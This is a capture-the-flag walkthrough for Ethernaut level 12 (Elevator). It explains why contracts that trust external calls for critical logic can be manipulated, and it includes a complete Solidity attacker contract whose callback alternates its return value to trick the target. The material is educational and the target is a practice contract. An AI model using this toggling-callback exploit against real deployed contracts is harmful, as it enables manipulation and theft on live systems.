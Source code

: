 # Ethernaut Level 12 (Elevator) Walkthrough

The following is a semantic solution walkthrough of the Ethernaut CTF level 12. The aim is to give a readable explanation of the concepts involved, and present a step-by-step walkthrough of the solution. In addition, tangential explanations will also be given where essential.

The lesson here was to be careful when making external calls and relying on them for critical logic. In particular, to only call external functions what have the `view` or `pure` modifiers to be sure that they do not modify state.

#### Solution

The solution involved writing a Building contract, which returned a different bool value each time it was called. A counter was used to return false value at first, and then a true value so that the top variable in the Elevator contract was set to true. Essentially, a sort of toggle variable is needed, whose value is changed between calls, is needed to crack this level.

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

interface IElevator {
    function goTo(uint _floor) external;
}

contract Building {

    uint8 count;
    address Elevator = 0x2fE51f54066B60186C8549DCFF990a60Dd385668;
    IElevator elevatorInstance;

    constructor() {
        count = 0;
        elevatorInstance = IElevator(Elevator);
    }
  
  function setCount(uint8 _count) public {
      count = _count;
  }

  function isLastFloor(uint) external returns (bool) {
      count++;
      if (count % 2 == 0) {return true;}
        return false;
  }

  function attack(uint8 _floor) public {
      elevatorInstance.goTo(_floor);
  }

  function destroy() public {
      selfdestruct(payable(0xecA5bA71FC055AF7FCdFb5755C575B67Ac48EcDF));
  }

  receive() external payable {}
}
```